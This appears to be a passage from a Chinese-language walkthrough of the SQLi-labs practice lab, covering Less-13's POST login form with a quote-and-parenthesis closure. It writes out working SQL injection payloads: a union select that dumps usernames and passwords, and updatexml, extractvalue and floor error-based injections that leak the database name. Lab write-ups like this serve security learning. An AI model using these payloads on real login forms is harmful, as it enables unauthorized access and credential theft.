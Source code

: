 5. **取值**

   ```
   uname=1' union select 1,group_concat(username,':',password) from users #&passwd=xwx & submit=Submit
   ```



### less13

#### 类型：

POST 单引号加括号 字符型 报错注入

#### 解题方法

通过登录框进行注入

以第11题为例，12题为双引号+括号的闭合



#### 解题

1. 同样的，我们直接单引号＋双引号让他直接报错，我们就知道查询语句了

   ![13-1](images/sqli_labs/13-1.png)

   最后我们推出这个页面的SQL语句

   ```
   select username,password from users where username=('账号') and password=('密码') limit 0,1 
   ```



2. 一样的，POST进行传参**爆库名**

  ```
  //报错注入，之updatexml
  uname= 1') and updatexml(1, concat('~',database(),'~'), 1) # &passwd=xwx') #&submit=Submi
  
  //报错注入，之extractvalue
  uname=1') and extractvalue(1,concat('~',database(),'~')) #&passwd=1&submit=Submit
  
  //报错注入，之floor
  uname= 1') union select count(*),concat('~',(select database()),'~',floor(rand()*2)) as a from information_schema.tables group by a # &passwd= ') or 1=1 # &submit=Submi
  ```

3. **获取表名&获取字段&取值**

   都是一样的报错注入了

   







